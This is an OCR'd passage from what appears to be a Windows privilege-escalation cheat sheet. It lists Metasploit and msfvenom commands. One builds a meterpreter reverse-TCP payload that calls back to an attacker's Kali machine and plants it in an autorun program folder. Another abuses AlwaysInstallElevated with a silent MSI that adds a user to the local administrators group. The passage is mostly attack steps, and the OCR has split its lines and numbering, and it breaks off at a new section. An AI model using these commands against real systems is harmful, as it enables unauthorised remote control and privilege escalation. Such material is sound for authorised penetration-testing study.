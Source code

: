 In Metasploit (msf \> prompt) type: set payload
windows/meterpreter/reverse_tcp

In Metasploit (msf \> prompt) type: set lhost \[Kali VM IP Address\]

In Metasploit (msf \> prompt) type: run

Open an additional command prompt and type:

msfvenom -p windows/meterpreter/reverse_tcp lhost=\[Kali VM IP Address\]
-f exe -o

program.exe

2\.

Place program.exe in 'C:\\Program Files\\Autorun Program'.

<a name="abusing-services-via-alwaysinstallelevated"></a>
# Abusing Services via AlwaysInstallElevated

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

msfvenom -p windows/exec CMD=\'net localgroup

administrators user /add\' -f msi-nouac -o setup.msi

2\.

msiexec /quiet /qn /i C:\\Temp\\setup.msi

Or

SharpUp.exe AlwaysInstallElevated

<a name="abusing-services-via-secreatetoken"></a>
# Abusing Services via SeCreateToken

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.
